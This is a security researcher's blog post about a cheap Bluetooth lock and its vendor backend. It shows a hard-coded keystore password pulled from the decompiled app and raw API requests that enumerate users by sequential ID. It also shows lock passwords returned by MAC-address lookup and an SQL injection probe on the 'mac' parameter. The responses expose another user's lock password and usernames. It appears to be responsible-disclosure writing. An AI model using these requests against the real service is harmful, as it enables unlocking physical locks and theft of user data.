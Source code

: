 ```yaml
---
title: The weired BLE-Lock
layout: post
type: blog
updated: 2022-11-03T10:54:55+01:00
created: 2022-07-20T21:03:47+02:00
permalink: the-weired-ble-lock
published: true
---
```


**tl;dr;** My knowledge in Bluetooth LE Communication got quite rusty over time and i wanted to refresh it with an easy target the other day. I wanted to open up the lock with a simple bluetooth command but ended up having access to their entire backend database with a lot of unique users across their entire product lineup.

It didn't go as planned.

## The Lock and API
As all BLE-Locks work, they require an App to talk to the Lock itself and an API on the company side.

I loaded the application into my trusted rooted android phone and started proxien all requests through Burp to look for API clues how this communication works.

Unfortunately the communication didn't work first time, because the server required a client certificate to authenticate against the webserver.

The certificates were found pretty fast in the ressources directory. But the `pkcs12` still needed a password i had to comb through the binary for.

After some digging, i found the method `C0015b` which loads the TrustManager and loads the PKCS12 files with a Password `daqitech2017` into the Keystore.

Password in file: `/c/g/a/a/m/b.java`

```java
public static C0015b c(Context context) {
    X509TrustManager x509TrustManager;
    C0015b bVar = new C0015b();
    InputStream openRawResource = context.getResources().openRawResource(g.server_pwd);
    InputStream openRawResource2 = context.getResources().openRawResource(g.client_pwd);
    try {
        SSLContext sSLContext = SSLContext.getInstance("TLS");
        KeyStore keyStore = KeyStore.getInstance("PKCS12");
        KeyStore keyStore2 = KeyStore.getInstance("PKCS12");
        keyStore.load(openRawResource, "daqitech2017".toCharArray());
        keyStore2.load(openRawResource2, "daqitech2017".toCharArray());
```

Heureka, the password was found and i was able to include the certificate into burp.

![]({{site.baseurl}}/img/posts/2022/Pasted image 20221103195341.png)

### Login
After a registration and login request is was time to observe the communication of the app to the backend servers.

```
https://[redacted]/?m=lock&a=getLockInfoByMac
https://[redacted]/?m=share&a=getFaceUrl
https://[redacted]/?m=Socket&a=lockList
https://[redacted]/?m=sts&a=oss_params
https://[redacted]/?m=user&a=register
```

The whole communication relies quite heavily on `POST` requests with `GET` parameter determining some kind of module (Parameter: `m`) and a subcommand (Parameter: `a`). It was way more interesting to look into the `POST`-Parameter.

After a successful login a `loginToken` is being transfered to keep for safekeeping. It is needed in every request, but only for validity and not content access, as we discover later.

```http
POST /?m=user&a=login HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Host: [redacted]
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.9.1

user\_name=nuitgaspard&user\_pwd=[redacted]&type=2&way=2&message_lang=en-us

HTTP/1.1 200 OK
Server: nginx
Date: Wed, 03 Aug 2022 19:33:55 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.24
Content-Length: 268

{"state":"success","type":0,"desc":"接口操作成功","id":"508492","email":"","loginToken":"25cba956d908[...redacted...]","avatarPath":"","level":"0","mobile":null,"nickname":"nuitgaspard","loginName":"nuitgaspard","way":"2","bucket\_name":null,"end\_point":null}
```


## Who are you, and what locks do you command?

If we look closely on the request to get a locklist (`m=Socket&a=locklist`), a user es defined with the `POST` parameter `user_id`. This ID seems to be a normal counter.

You can basically run over all 50k UserIDs and get every user having an Account.

```http
POST /?m=Socket&a=lockList HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Host: [redacted]
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.9.1

loginToken=1eb8bbfa1c[...redacted....]&type=2&cp=el&user_id=508486&page=1
```

The following Response does not show my User. It is user `508486`

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 03 Aug 2022 20:03:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.24
Content-Length: 792

{"state":"success","type":0,"desc":"接口操作成功","data":[{"mac":"A4:C1:38:22:0A:33","isMaster":0,"masterId":506827,"masterName":"innovatekink","shareType":1,"time_zone":"+02:00","shareLockTimeArray":[{"startTime":"00:00","enable":1,"endTime":"23:59","repeat":127},{"startTime":"00:00","enable":0,"endTime":"23:59","repeat":127},{"startTime":"00:00","enable":0,"endTime":"23:59","repeat":127}],"shareLockTime":0,"name":"Riri","password":"861226","admin_password":"861226","fgpSup":1,"protocolVersion":"7","fwVersion":"1.30.5.0","preLoseSup":0,"preLose":0,"backAdvSup":0,"backAdv":0,"locationSetup":1,"alarmSup":0,"alarmState":0,"order_type":0,"fg_num":2,"last_open_user":"kinkysexboy","last_time":"2022-07-21 01:31:55","last_timeUTC":"2022-07-20 17:31:55","admin_name":"innovatekink"}]}
```

If you look closely on the Response, you can even spot the password of the lock, which get's send by BLE. 

I thought to myself. NICE! I can now open every lock they have. 

So i looked on, if i can find a better function to get informations about a specific lock.

## Sesam open: one request for every lock
There is a function called `getLockInfoByMac`,  which the mac address of this lock a `POST` Argument and gets back with all information about lock.

```http
POST /?m=lock&a=getLockInfoByMac HTTP/1.1
Host: [redacted]
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.9.1

mac=A4%3aC1%3a38%3a21%3a7F%3aD0&loginToken=92103907b8e0[...redacted....]&type=1&cp=&isBind=0

-----

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 24 Nov 2022 08:37:09 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.24
Content-Length: 188

{"state":"success","type":0,"desc":"接口操作成功","data":{"name":"lock","mac":"A4:C1:38:21:7F:D0","isBind":1,"password":"475029","reset":1,"lock_status":1,"admin_password":"475029"}}
```

We now have a method to lookup every lock in existence. I take the assumptions, they are nice people and respect the first 3 bytes of the Mac-Address to be a Vendor Identifier, we "only" have to crawl for `255*255*255` possibilities.

But something weired popped up.

![]({{site.baseurl}}/img/posts/2022/Pasted image 20221124094309.png)

## It was at that moment, they knew, they fucked up
I usually do my whole shennanigans with APIs with Burp. My Burp configuration does automatic checks with single or double quotes on every parameter.

Adding a single and double quote (yes you need both) at the `mac` parameter produces an interesting output:

```
{"state":"fail","type":1,"desc":"\"SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''\\\"' at line 1\""}
```

Uiuiuiuiui....that doesn't look good. 

After poking around in the potential SQLi, i found a working reliable exploit and looked at the impact. There are around 180 Tables. This does not only affect the lock Product line. As i suspected from the first argument in the `GET` parameter, the API is used by other products like cameras and so on, as well.

| Table             | Entries |
| ----------------- | ------- |
| users             | 502244  |
| apple_pay_receipt | 1514    |
| camera_user       | 99955   |


This is a  major impact on these devices coming from a 20 Euro Bluetooth Lock.

# Disclosure Timeline

- 26 July: Asking for Security Contact
- 28 August: Asking again for security contact
- Release date of this Blog post: Sent them this Blogpost.

# Fazit
If you own something from `https://www.elinksmart.net/`, consider your password compromised and locks/cameras/etc not secure.

# References:

* https://www.youtube.com/watch?v=AIaFleFMPn0 - LockPickingLawyer
* https://www.lockhacking.com/2022/05/24/elinksmart-padlock-cracked.html
